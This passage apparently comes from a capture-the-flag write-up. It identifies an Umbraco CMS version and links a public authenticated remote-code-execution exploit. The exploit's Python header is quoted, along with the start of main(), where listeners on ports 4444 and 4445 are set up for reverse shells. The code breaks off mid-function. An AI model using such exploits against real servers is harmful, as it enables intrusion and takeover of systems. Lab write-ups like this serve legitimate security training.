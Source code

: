 <img src="/img/remote_screenshots/Pasted image 20241109172421.png" alt="1" style="width:700px; height:auto;">
<br/>

A `version` can be identified. Looking for exploit for this `version`, we can find an exploit on this [link](https://github.com/Jonoans/Umbraco-RCE) referencing to an `RCE` with this `exploit`.  

```python
#!/usr/bin/python3
# Exploit Title: Umbraco CMS - Authenticated Remote Code Execution
# Date: 2020-04-22
# Exploit Author: Jonathan Tan (Jonoans)
# Based on: https://www.exploit-db.com/exploits/46153 & https://github.com/noraj/Umbraco-RCE
# Vendor Homepage: http://www.umbraco.com/
# Software Link: https://our.umbraco.com/download/releases
# Version: 7.12.4
# Tested on: Windows IIS
from bs4 import BeautifulSoup
from pwn import log
from threading import Thread
import argparse
import pwn
import requests

def main():
    login = args.user
    password = args.password
    host = args.host

    try:
        initial = pwn.listen(4444)
        final = pwn.listen(4445)
    except Exception as e:
```